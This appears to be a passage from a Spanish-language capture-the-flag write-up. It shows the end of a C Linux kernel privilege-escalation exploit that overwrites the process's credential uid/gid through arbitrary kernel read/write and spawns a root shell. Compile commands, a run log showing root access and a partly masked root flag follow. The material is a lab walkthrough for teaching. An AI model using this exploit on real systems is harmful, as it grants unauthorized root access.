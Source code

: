 ```c

	if (task_struct < PHYS_OFFSET)
		__exit("bogus task ptr");

	printf("task_struct = %lx\n", task_struct);

	credptr = __read(task_struct + CRED_OFFSET); // cred

	if (credptr < PHYS_OFFSET)
		__exit("bogus cred ptr");

	uidptr = credptr + UID_OFFSET; // uid
	if (uidptr < PHYS_OFFSET)
		__exit("bogus uid ptr");

	printf("uidptr = %lx\n", uidptr);
	__write(uidptr, 0); // set both uid and gid to 0

	if (getuid() == 0) {
		printf("spawning root shell\n");
		system("/bin/bash");
		exit(0);
	}

	__exit("not vulnerable?");
}

int main(int argc, char **argv) {
	prep();
	pwn();

	return 0;
}
```

A continuación lo compilamos
```
gcc exploit.c -o exploit
```

Le damos permisos de ejecución y lo lanzamos:

```
chmod +x
```

```
help@help:/tmp$ ./exploit
task_struct = ffff88001c944600
uidptr = ffff880019cae6c4
spawning root shell
root@help:/tmp# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare),1000(help)
root@help:/tmp# 
```

```
root@help:/root# ls
root.txt  snap
root@help:/root# cat root.txt
63361f0**************a67b6
root@help:/root# 
```

